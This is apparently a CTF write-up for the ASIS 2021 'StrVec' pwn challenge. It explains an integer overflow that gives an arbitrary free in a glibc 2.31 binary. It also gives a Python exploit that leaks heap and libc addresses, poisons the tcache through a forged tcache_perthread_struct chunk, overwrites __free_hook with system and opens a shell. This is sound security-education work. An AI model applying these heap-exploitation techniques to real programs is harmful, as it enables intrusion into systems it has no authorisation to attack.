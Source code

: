 # StrVec

## TLDR
### Vulnerability
* Integer overflow
### How to attack
* tcache poisoning
* overwrite tcache\_perthread\_struct

## Challenge
### Description
result of file command
* Arch    : x86-64
* Library : Dynamically linked
* Symbol  : Not stripped

result of checksec
* RELRO  : Full RELRO
* Canary : Enable
* NX     : Enable
* PIE    : Enbale

libc version: 2.31
### Exploit 
At first, we can trigger integer overflow giving n = 0x7fffffff.  
Then we can free any address.  


But, we must call malloc() before calling free(), and we can only call malloc() with size 0x30.  
It makes this challenge harder exploit. It is difficult to link any address to tcache.  


To avoid this restriction, we make fake chunk which size is 0x290 that is same as tcache\_perthread\_struct, and free.  
And we also free the address of tcache\_perthread\_struct.  As a result "count" member of tcache\_perthread\_struct was overwritten to huge value(the address of heap).  
So now we can exploit with tcache poisoning attack.  

A part of exploit
```python
def get(idx):
	conn.sendlineafter("> ", "1")
	conn.sendlineafter(" = ", str(idx))
	conn.recvuntil("-> ")

def create(idx, data):
	conn.sendlineafter("> ", "2")
	conn.sendlineafter(" = ", str(idx))
	conn.sendafter(" = ", data)

def exploit():
	conn.sendlineafter(": ", "name")	
	conn.sendlineafter("n = ", str(0x7fffffff))

	# heap address leak
	create(3, "\n")
	get(3)
	addr_heap = conn.recvline()[:-1]
	heap_base = u64(addr_heap+b"\x00"*(8-len(addr_heap))) - 0x2c0
	print(hex(heap_base))

	create(0, b"/bin/sh\x00"+p64(0x441)+b"\n") 			# prepare to get a shell , make fake size header
	create(1, p64(heap_base+0x2c0+0x40)+p64(heap_base+0x2c0+0x40)+b"\n")
	payload = p64(0)
	payload += p64(0x291)								# fake header
	payload += p64(0)
	payload += p64(0x291)								# fake header
	for i in range(22):
		create(21+i*6, payload[:-1])
	create(15, "\n")									# free fake chunk(size=0x440)
	get(16)												
	
	# libc address leak
	libc_unsorted = conn.recvline()[:-1]
	libc_base = u64(libc_unsorted+b"\x00"*(8-len(libc_unsorted))) - off_unsorted
	libc_free_hook = libc_base + off_free_hook
	libc_system = libc_base + off_system
	print(hex(libc_base))
	
	payload = p64(heap_base+0x3c0)
	payload += p64(heap_base+0x10)
	create(3, payload+b"\n") 		# allocate from unsorted
	create(3, payload+b"\n")
	create(4, b"\n")
	create(35, p64(libc_free_hook-0x8)+b"\n")
	create(5, b"\n")
	create(6, b"\n")
	create(7, p64(0)+p64(libc_system)+b"\n")
	conn.sendlineafter("> ", "3")	
	conn.interactive()	

if __name__ == "__main__":
	exploit()	
```

My exploit code is [solve.py](https://github.com/kam1tsur3/2021_CTF/blob/master/asis/pwn/strvec/solve.py).

## Reference

twitter: @kam1tsur3
